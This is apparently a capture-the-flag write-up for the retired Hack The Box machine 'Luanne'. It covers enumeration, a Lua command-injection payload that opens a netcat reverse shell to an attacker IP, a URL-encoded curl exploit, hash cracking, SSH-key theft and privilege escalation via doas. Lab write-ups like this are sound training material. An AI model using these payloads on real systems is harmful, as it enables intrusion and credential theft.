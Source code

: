 ```yaml
---
title: "Luanne HTB Writeup"
date: 2021-03-27T09:20:04+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "easy",
    "FreeBSD",
]
---
```

![Machine Info](/images/luanne/1.png)

Luanne is an easy machine retired today ..
let's check it out.. enjoy...
## Methodology:
* Recon / Scanning Target
* Searching for Vulnerabilities - also understanding the target
* Gaining Access / Foothold 
* Maintaining Access
* Privilege escalation
* Reporting - (don't forget taking notes after each step)
---
# []()Enumeration:
  using nmap scan to see the open ports and the running services
* **nmap -sC -sV -oN 10.10.10.218**

```bash
Nmap scan report for **luanne.htb** (10.10.10.218)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```
There's a web server running on port 80:
![](/images/luanne/3.png)
* tried some default passwords, but didn't authorized access.
![](/images/luanne/4.png)
* also the nginx default page.
![](/images/luanne/5.png)

* **port 9001:**
![](/images/luanne/6.png)

* we noticed earlier a hostname (luanne.htb) .. we need to add it to our /etc/hosts file so we could access it.
![10.10.10.218	luanne.htb](/images/luanne/7.png)

* untill now nothing intersting showed up .. let's enumerate hidden directories:
* using Dirsearch:
```yml
python3 /home/sehs/dirsearch/dirsearch.py -u http://luanne.htb/ -e txt,html,php,log,zip,bac,bak,tar
```
![](/images/luanne/8.png)

found robots.txt file > this file tells the crawlers not to consider the paths inside it.. 
![found this /weather](/images/luanne/9.png)

so now let's see what's over there..
![](/images/luanne/10.png)

i also ran dirsearch again on the luanne.htb/weather >> but got nothing.
then i tried to search with the CVEs about nginx with version 1.9.0 and openssh but nothing usefull. so i turned back to enumeration.

This time using a bigger wordlist and gobuster.
### Gobuster:
* gobuster dir -u http://luanne.htb/weather -w /usr/share/dirb/wordlists/big.txt
![](/images/luanne/11.png)
![found this /forecast path](/images/luanne/12.png)
we could have used dirsearch too, but gobuster is faster in this case with bigger wordlists.

### Time for Web Enumeration:
* going to /weather/forecast:
![](/images/luanne/13.png)
* it says go to city=list >> so let's see /weather/forecast?city=list
![](/images/luanne/14.png)
![nothing really usefull. ](/images/luanne/15.png)

when tried single quote`` ' `` in the query, we got a lua error .. so now we knew that the backend language is lua.
![Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value](/images/luanne/16.png)
* now we have to fix the query so we could try command injection
* after some tries this >> ``')--`` makes the query right (-- to comment in lua)
* so now if we made a command within it ``')os.execute('command')--`` > it works
---
## Gaining Access:
* of course it's time to put regular reverse shell payload ``os.execute('nc 10.10.x.x PORT -e /bin/bash')`` and open our netcat .. but it didn't work..
it's time for searching around:
* if you noticed earlier from nmap (the os is NetBSD) so maybe we should try netbsd reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)
![netbsd payload](/images/luanne/18.png)
![](/images/luanne/17.png)
* now we need to combine both of those to make our payload
```java
');'os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.15 9001 >/tmp/f")'
```
and let's encode the payload
![](/images/luanne/19.png)
* note: [i got errors and the problem was in the () > their encoding %28 %29 ]
now let's do it again and the whole thing will be:
```
curl luanne.htb/weather/forecast?city=Leeds%27%29%3Bos.execute%28%22rm%2520%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.15%209001%20%3E%2Ftmp%2Ff%22%29--
```
![](/images/luanne/20.png)
![horay! we got our shell](/images/luanne/21.png)

* let's list what in there >> and we found some credential / hash
![](/images/luanne/22.png)

### Cracking the hash using john:
* put the hash inside file and run john on it using rockyou.txt wordlist
![](/images/luanne/23.png)
The creds >> **``webapi_user:iamthebest``** .. or type ``$john --show hash``
* now lets login with these creds:
![](/images/luanne/24.png)
![](/images/luanne/25.png)
nothing useful in there...
let's keep digging:
``netstat -ant`` to check network connections
![](/images/luanne/26.png)
``nc 127.0.0.1 3001`` to listen on the server
![](/images/luanne/27.png)
lets try curl: 
![also unauthorized](/images/luanne/28.png)
so lets try using our creds >>
``curl --user :iamthebest  http://127.0.0.1:3001``
![](/images/luanne/29.png)
* it worked fine .. now thinking of using this
![we 've got one user on the system called r.michaels](/images/luanne/30.png)
![trying to get ssh keys from .ssh/id_rsa](/images/luanne/31.png)
![trying to get user.txt](/images/luanne/32.png)
![and finally getting ssh keys from michaels home](/images/luanne/33.png)
* copy and save them to a file and ``chmod 400 id_rsa``
* ``ssh -i id_rsa r.michaels@luanne.htb``
![](/images/luanne/34.png)
---
## Privilege Escalation / Rooting:
![](/images/luanne/35.png)
from the first sight >> this backed up file ``devel_backup-2020-09-16.tar.gz.enc`` is catchy
* i took some time to crack its encoding .. then i thought of roaming around maybe it's not the solution .. i used LinPEAS.sh to search around
.. then i came back to it .. so i'll short it down for u and be straight forward in this ...
* you can transfer the file on your machine to work on it like this:
```ruby
On your server (A):
nc -l -p 1234 -q 1 > something.zip < /dev/null

On your "sender client" (B):
cat something.zip | nc server.ip.here 1234
```
* found these files and their extention so i thought they are related and searched on 'em:
![](/images/luanne/36.png)
![](/images/luanne/37.png)
![](/images/luanne/38.png)
* as u can see it seems that our backup file was encrypted using this 'netpgp' tool .. earlier i tried decompressing using openssl but it needed password.
* ``which netpgp`` >> gives its location '/usr/bin/netpgp' >> so we could use it to crack our file.
![](/images/luanne/39.png)
* Decryption:
```yml
/usr/bin/netpgp --decrypt filename --output=/path

/usr/bin/netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz
```
![](/images/luanne/40.png)
* the file is being deleted so fast >> u 've to send it to your machine:
![](/images/luanne/41.png)
![](/images/luanne/42.png)
* To uncompress it >> ``tar xvzf backup.tar.gz`` 
* found a hash inside .htpasswd
![](/images/luanne/43.png)
* put the hash inside file to crack it with john
![](/images/luanne/44.png)
* cracking with john as before:
![](/images/luanne/45.png)
### creds: webapi_user:littlebear
* let's try switching into root and use the pass we got:
* when trying ``su root`` we got some error:
![](/images/luanne/46.png)
* after searching >> there is no su command in NetBsd systems, insteed its ``doas``
* you can check their [manual](https://man.netbsd.org/netpgb.1)
![](/images/luanne/47.png)
![](/images/luanne/48.png)
**rooted#**
* i hope you enjoyed..
* if so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588)
* feel free to contact me for feedbacks or any help...



